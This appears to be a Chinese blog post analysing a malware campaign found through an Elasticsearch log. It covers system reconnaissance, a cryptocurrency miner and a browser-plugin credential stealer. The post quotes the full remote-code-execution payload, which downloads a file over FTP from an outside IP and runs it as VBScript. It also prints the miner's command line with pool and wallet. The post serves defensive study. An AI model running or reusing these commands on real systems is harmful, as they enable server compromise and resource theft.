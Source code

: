 ```yaml
---
layout: post
title: 一个简单的样本分析
description: "去年获取的某个样本分析"
category: analysis
tags: [analysis]
imagefeature: http://7xwdx7.com1.z0.glb.clouddn.com/5551e1cabd3bb.jpg
comments: true
share: true
---
```


### 0x00 背景

去年的某一天，在elastic search的某个QQ交流群中，有人贴出了一段日志，显示他的服务器被人进行了远程代码执行的攻击，日志内容如下：

{% highlight json %}

{
  "script": "java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("cmd.exe /c echo open 58.215.19.139>f&echo 111>>f&echo qwe>>f&echo bin>>f&echo get h.zip>>f&echo bye>>f&ftp -s:f&cscript.exe /b /e:VBScript.Encode h.zip&del /f/q f&exit").getText()"
}

{% endhighlight %}

脚本大意是创建一个ftp脚本，从IP地址58.215.19.139下载一个名为h.zip的文件，并以vbscript的方式进行执行，执行完成后删除脚本。

### 0x01 展开初步分析

为了学习理解攻击方式，我下载了这个攻击载荷，并通过对vbscript的解码还原了该攻击载荷的攻击流程和攻击方式。

h.zip作为打头进行运行的恶意载荷负责进行系统信息探测和恶意程序加载工作。首先，它对以下相关系统信息进行探测：

* 获取注册表中操作系统语言
* 获取注册表中操作系统版本号
* 获取注册表中cpu核数
* 测试肉鸡是否能够翻墙
* 获取当前系统开机运行时间

在完成系统信息探测后，根据不同的操作系统版本、操作系统语言和操作系统用途，打头程序加载不同的恶意程序感染肉鸡的操作系统。

* 操作系统为XP，语言为简体或繁体中文且无法翻墙-->加载中文版本某mof文件
* 操作系统为XP，语言为简体或繁体中文且可以翻墙-->加载英文版本某mof文件
* 对于操作系统为XP，语言为简体或繁体中文的机器，进一步对其当前操作系统运行时间进行识别。若连续运行时间大于9小时，则使用dl.vbs进行下一步感染，dl.vbs感染的恶意程序主要用来连接比特币矿池进行挖矿；若连续运行时间小于9小时，则使用bdved.vbs进行下一步感染，bdved.vbs加载的恶意程序带有在用户进行网购时进行盗号的功能。
* 对于非XP版本或者其他语言版本的windows操作系统，加载英文版本某mof文件，并使用dl.vbs进行下一步感染。

### 0x02 dl.vbs感染的恶意程序的主要功能

dl.vbs使用户下载一个dat文本文件和一个pe执行体，该dat文本文件中使用pe执行体执行如下命令：
`mstdc.exe -a m7 -o stratum+tcp://xcnpool.1gh.com:7333 -u CGX2U2oeocN3DTJhyPG2cPg7xpRRTzNZkz -p x --retries 5 --retry-pause=20`

该命令作用为开启一个名为MaxCoin 的矿池所使用的挖矿客户端，攻击者所使用的帐户为CGX2U2oeocN3DTJhyPG2cPg7xpRRTzNZkz。该矿池地址：http://max.1gh.com/

![MaxCoin](http://7xwdx7.com1.z0.glb.clouddn.com/MaxCoin.png)

### 0x03 bdved.vbs感染的恶意程序的主要功能

bdved.vbs感染的恶意程序更为复杂，它含有两个压缩包、一个unrar.exe文件和一个bat文件。它的启动原理和攻击方式都更为隐蔽。攻击者通过命令：ping -n 5 127.0.0.1进行延时操作，不在下载完成的第一瞬间启动恶意程序。

恶意程序分为32位和64位两种版本，拥有不同的启动方式和可执行文件，具体的技术细节仍需要通过进一步分析进行还原。

值得注意的是该恶意软件的盗号方式比较新颖，使用的是浏览器插件+中间人攻击的方式。恶意软件启动后，一旦肉鸡操作系统安装了某些特定厂商的浏览器，恶意程序就试图在这些浏览器中安装用来进行中间人攻击的插件。

这些插件通过篡改浏览器端页面内的链接对http或https流量进行中间人攻击劫持，用户在登陆时提交的用户名、密码能够被攻击者截获并记录。具体原理如下：
* 恶意程序在肉鸡操作系统的360安全浏览器或百度浏览器安装恶意插件
* 浏览器恶意插件在用户访问以下域名时实施中间人攻击
* 恶意的浏览器插件将用户访问的页面地址及标题上传至控制端，控制端可以插入js脚本执行各种攻击动作。

攻击者关心的域名列表：

![域名列表](http://7xwdx7.com1.z0.glb.clouddn.com/domainList.png)

上传至控制端的链接地址：
![url1](http://7xwdx7.com1.z0.glb.clouddn.com/url1.png)
![url2](http://7xwdx7.com1.z0.glb.clouddn.com/url2.png)

完整攻击步骤可以整理为下图中所示：
![攻击步骤整理](http://7xwdx7.com1.z0.glb.clouddn.com/step.png)

### 0x04 一些思考
国内杀软通常会捆绑浏览器等大量系统软件，也就是所谓的“全家桶”。然而，这些附带的浏览器等系统软件居然被用来当作盗号的切入点。这些系统软件显然具有较高的优先级，杀毒软件没有对浏览器插件等进行严格的扫描和权限控制，这一点还是非常值得深入思考的。不得不说，有的时候最好的盾牌也是最锋利的长矛。
